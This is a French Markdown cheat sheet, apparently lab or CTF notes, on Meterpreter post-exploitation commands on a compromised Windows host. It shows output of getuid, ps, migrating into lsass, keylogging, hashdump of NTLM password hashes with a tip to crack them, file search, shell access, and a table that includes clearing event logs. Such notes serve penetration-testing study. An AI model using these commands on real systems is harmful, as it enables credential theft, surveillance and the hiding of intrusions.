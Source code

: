 
Une fois qu'on a pu acceder à la machine ciblé meterpreter nous offre beaucoup de commande.

## __Help__

Pour avoir la **liste des commandes** accessibles.

```shell
meterpreter > help

Core Commands 
============= 

	Command           Description
	-------           -----------
	?                 Help menu 
	background        Backgrounds the current session 
	bg                Alias for background
	bgkill            Kills a background meterpreter script 
	bglist            Lists running background scripts
	bgrun             Executes a meterpreter script as a background thread
	channel           Displays information or control active channels
	close             Closes a channel[...]
```


## __Getuid__

Pour récupérer le **nom de l'utilisateur actuel**.

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```


## __Ps__

Pour **lister tous les processus en cours**.

```shell
meterpreter > ps 

Process List 
============ 

PID   PPID  Name              Arch Session User                           Path
---   ----  ----              ---- ------- ----                           ---- 
0     0     [System Process]
4     0     System            x64   0 
396   644   LogonUI.exe       x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\LogonUI.exe 
416   4     smss.exe          x64   0      NT AUTHORITY\SYSTEM            \SystemRoot\System32\smss.exe 
428   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
548   540   csrss.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe 
596   540   wininit.exe       x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\wininit.exe
604   588   csrss.exe         x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\csrss.exe
644   588   winlogon.exe      x64   1      NT AUTHORITY\SYSTEM            C:\Windows\system32\winlogon.exe 
692   596   services.exe      x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\services.exe
700   692   sppsvc.exe        x64   0      NT AUTHORITY\NETWORK SERVICE 
716   596   lsass.exe         x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsass.exe
724   596   lsm.exe           x64   0      NT AUTHORITY\SYSTEM            C:\Windows\system32\lsm.exe 
764   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM  
828   692   svchost.exe       x64   0      NT AUTHORITY\SYSTEM 
864   828   WmiPrvSE.exe   
900   692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE 
952   692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1076  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1164  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1168  692   svchost.exe       x64   0      NT AUTHORITY\NETWORK SERVICE
1244  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe
1276  1304  cmd.exe           x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\cmd.exe 
1304  692   spoolsv.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
1340  692   svchost.exe       x64   0      NT AUTHORITY\LOCAL SERVICE 
1388  548   conhost.exe       x64   0      NT AUTHORITY\SYSTEM           C:\Windows\system32\conhost.exe[...]
```


## __Migrate__

On peut **migrer meterpreter vers un autre processus** pour **mieux interagir** avec. Par exemple si on voit un logiciel de traitement de texte comme word.exe ou notepad.exe, on peut capturer les entrées clavier avec `keyscan_start`, `keyscan_stop` et `keyscan_dump`.

```shell
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully. 
meterpreter >
```


## __Hashdump__

Pour **récupérer les mots de passes de la db SAM** (Security Account Manager), ils sont stocké au format NTLM (New Technology LAN Manager).  On peut les déchiffrer grâce à des db comme [CrackStation](https://crackstation.net/).

```shell
meterpreter > hashdump 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: 
meterpreter >
```


## __Search__

Permet de **trouver un fichier** dans le disque.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
	c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```


## __Shell__

Pour avoir un **terminal classique** de commande.

```shell
meterpreter > shell 
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601] 
Copyright (c) 2009 Microsoft Corporation. All rights reserved. 

C:\Windows\system32>
```


## __Commande utile__

### Commande Principale

| Commande     | Description                                                        |
| ------------ | ------------------------------------------------------------------ |
| `background` | Arrière-plan de la session en cours                                |
| `exit`       | Terminer la session Meterpreter                                    |
| `guid`       | Get the session GUID (Globally Unique Identifier)                  |
| `help`       | Displays the help menu                                             |
| `info`       | Displays information about a Post module                           |
| `irb`        | Opens an interactive Ruby shell on the current session             |
| `load`       | Loads one or more Meterpreter extensions                           |
| `migrate`    | Allows you to migrate Meterpreter to another process               |
| `run`        | Executes a Meterpreter script or Post module                       |
| `sessions`   | Quickly switch to another sessionQuickly switch to another session |

### Commande file system

| Commande   | Description                                                   |
| ---------- | ------------------------------------------------------------- |
| `cd`       | Will change directory                                         |
| `ls`       | Will list files in the current directory (dir will also work) |
| `pwd`      | Prints the current working directory                          |
| `edit`     | will allow you to edit a file                                 |
| `cat`      | Will show the contents of a file to the screen                |
| `rm`       | Will delete the specified file                                |
| `search`   | Will search for files                                         |
| `upload`   | Will upload a file or directory                               |
| `download` | Will download a file or directory                                                              |

### Commande network

| Commande   | Description                                                |
| ---------- | ---------------------------------------------------------- |
| `arp`      | Displays the host ARP (Address Resolution Protocol) cache  |
| `ifconfig` | Displays network interfaces available on the target system |
| `netstat`  | Displays the network connections                           |
| `portfwd`  | Forwards a local port to a remote service                  |
| `route`    | Allows you to view and modify the routing table                                                           |

### Commande systeme

| Commande   | Description                                   |
| ---------- | --------------------------------------------- |
| `clearev`  | Clears the event logs                         |
| `execute`  | Executes a command                            |
| `getpid`   | Shows the current process identifier          |
| `getuid`   | Shows the user that Meterpreter is running as |
| `kill`     | Terminates a process                          |
| `pkill`    | Terminates processes by name                  |
| `ps`       | Lists running processes                       |
| `reboot`   | Reboots the remote computer                   |
| `shell`    | Drops into a system command shell             |
| `shutdown` | Shuts down the remote computer                |
| `sysinfo`  | Gets information about the remote system, such as OS                                              |

### Autres

| Commande       | Description                                                 |
| -------------- | ----------------------------------------------------------- |
| `idletime`     | Returns the number of seconds the remote user has been idle |
| `keyscan_dump` | Dumps the keystroke buffer                                  |
|                |                                                             |
